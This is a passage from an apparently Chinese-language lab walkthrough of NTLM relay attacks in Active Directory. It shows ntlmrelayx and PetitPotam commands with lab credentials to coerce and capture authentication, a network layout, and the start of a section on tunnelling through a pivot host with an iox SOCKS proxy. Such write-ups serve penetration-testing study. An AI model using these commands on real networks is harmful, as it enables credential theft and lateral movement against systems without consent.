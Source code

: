 
```
python ntlmrelayx.py -t 192.168.214.135 --smb2support
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTaickfzr63icBna6VLknAdpvHKRg9KEQWwvWVicVMrPTqib91lNPOdu1wVRGJNmfvibQ0wNF41BECGAxA/640?wx_fmt=png&from=appmsg "")  
  
4.   
强制目标主机发起   
NTLM 认证  
。  
  

```
python PetitPotam.py -d luckytom.com -u domainuser01 -p User01!@# badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 192.168.214.135
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElgJHQ5okYIjsexJU50BaIiaYm0p9N2rEGSKrlPIHNf3eFAY5STnVq5lQ/640?wx_fmt=png&from=appmsg "")  
  
  
5.   
监听主机接收到 Hash。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElwLTveyMHJ117rPAtehPUibkchbE2DibCKNGZMtAzOWTuwwBkWDMuZ6oQ/640?wx_fmt=png&from=appmsg "")  
  
二. 目标主机不出网  
  
搭建环境如下，并将入口机上线到攻击机的 CS：  
  

```
已获得普通域用户：domainuser01 / User01!@#
域控DC Windows server 2022：192.168.214.134
域内目标主机 Windows server 2022：192.168.214.135
入口跳板主机 Windows server 2022
  192.168.214.136
  192.168.56.130 (模拟外网IP) 
攻击机 Windows 11：192.168.56.131
公网VPS Kali Linux：192.168.56.10
```

  
  
这种情况需要在入口机器上搭建一层隧道来实现流量的转发。  
  
1.   
开启   
socks  
 代理并配置本地   
proxifier  
 。  
  

```
iox.exe proxy -l 8080
```
